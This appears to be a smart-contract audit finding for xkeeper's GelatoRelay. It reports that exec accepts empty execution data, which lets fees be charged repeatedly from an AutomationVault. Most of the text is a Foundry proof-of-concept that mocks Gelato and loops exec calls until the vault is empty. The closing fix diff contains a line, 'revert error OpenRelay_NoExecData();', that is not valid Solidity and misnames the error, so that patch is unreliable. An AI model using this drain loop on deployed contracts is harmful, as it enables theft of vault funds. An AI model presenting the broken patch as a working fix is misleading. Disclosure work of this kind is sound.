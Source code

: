 Clean Satin Mammoth

medium

# Automation vault funds could be drained to the Gelato fee collector, without the gelato caller being malicious and no actual functionality of the target contract being executed.

## Summary
Automation vault funds could be drained to the Gelato fee collector, without the gelato caller being malicious and no actual functionality of the target contract being executed.

## Vulnerability Detail
GelatoRelay exec doesnt check if _execData is empty. This way Funds from automation vault could be transfered to the Gelato fee collector. The AutomationVault exec function wont execute any function of the job, but will charge fee.

## Impact
Impact for the Automation vault is High
Likehood for it to happen is low/medium.
Overall impact is Medium

## Code Snippet
https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/relays/GelatoRelay.sol?plain=1#L28

## Proof of Concept

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;
import {Test, console} from "forge-std/Test.sol";
import {AutomationVaultFactory} from "../../contracts/core/AutomationVaultFactory.sol";
import {AutomationVault} from "../../contracts/core/AutomationVault.sol";
import {GelatoRelay} from "../../contracts/relays/GelatoRelay.sol";
import {_NATIVE_TOKEN} from "../../utils/Constants.sol";
import {IAutomate} from "../../interfaces/external/IAutomate.sol";
import {IGelato} from "../../interfaces/external/IGelato.sol";
import {IAutomationVault} from "../../interfaces/core/IAutomationVault.sol";

contract FindingsTest is Test {
    AutomationVaultFactory public automationVaultFactory;
    IAutomationVault public automationVault;
    address public OWNER = makeAddr("owner");
    address public CALLER = makeAddr("caller");

    function setUp() public {
        automationVaultFactory = new AutomationVaultFactory();
        automationVault = automationVaultFactory.deployAutomationVault(
            OWNER,
            _NATIVE_TOKEN,
            0
        );
    }

    function testExploitingEmptyCalldataToDrainVaultWithoutExecutingAnyFunction()
        public
    {
        IAutomate automate = IAutomate(makeAddr("Automate"));
        address gelato = makeAddr("Gelato");
        address feeCollector = makeAddr("FeeCollector");

        vm.mockCall(
            address(automate),
            abi.encodeWithSelector(IAutomate.gelato.selector),
            abi.encode(gelato)
        );
        vm.mockCall(
            gelato,
            abi.encodeWithSelector(IGelato.feeCollector.selector),
            abi.encode(feeCollector)
        );
        vm.mockCall(
            address(automate),
            abi.encodeWithSelector(IAutomate.getFeeDetails.selector),
            abi.encode(1 ether, _NATIVE_TOKEN)
        );
        assertEq(automationVaultFactory.totalAutomationVaults(), 1);

        assertEq(automate.gelato(), gelato);

        GelatoRelay gelatoRelay = new GelatoRelay(automate);

        address job = makeAddr("job");
        bytes4[] memory selectors = new bytes4[](1);
        selectors[0] = 0x12345678;

        IAutomationVault.JobData[]
            memory jobData = new IAutomationVault.JobData[](1);
        jobData[0] = IAutomationVault.JobData(job, selectors);

        address[] memory callers = new address[](1);
        callers[0] = CALLER;

        // add relayer to the vault
        vm.prank(OWNER);
        automationVault.addRelay(address(gelatoRelay), callers, jobData);

        vm.deal(OWNER, 10 ether);
        vm.prank(OWNER);
        // fund automation vault with 5 ether
        (bool success, ) = address(automationVault).call{value: 5 ether}("");
        require(success, "Failed to fund automation vault");

        vm.deal(address(automationVault), 5 ether);
        vm.prank(CALLER);

        IAutomationVault.ExecData[] memory emptyExecData;
        gelatoRelay.exec(automationVault, emptyExecData);

        vm.startPrank(CALLER);
        while (address(automationVault).balance > 0) {
            gelatoRelay.exec(automationVault, emptyExecData);
        }

        assertEq(address(automationVault).balance, 0);
        console.log("Automation vault drained successfully!");
    }
}

```

## Tool used

Manual Review

## Recommendation
Check in GelatoRelay exec method if _execData array is empty. If empty return an error.

```diff
diff --git a/xkeeper-core/solidity/contracts/relays/GelatoRelay.sol b/xkeeper-core/solidity/contracts/relays/GelatoRelay.sol
index c769dac..930ca2b 100644
--- a/xkeeper-core/solidity/contracts/relays/GelatoRelay.sol
+++ b/xkeeper-core/solidity/contracts/relays/GelatoRelay.sol
@@ -26,6 +26,7 @@ contract GelatoRelay is IGelatoRelay {

   /// @inheritdoc IGelatoRelay
   function exec(IAutomationVault _automationVault, IAutomationVault.ExecData[] calldata _execData) external {
+    if (_execData.length == 0) revert error OpenRelay_NoExecData();
     // Get the fee details
     (uint256 _fee, address _feeToken) = AUTOMATE.getFeeDetails();

```
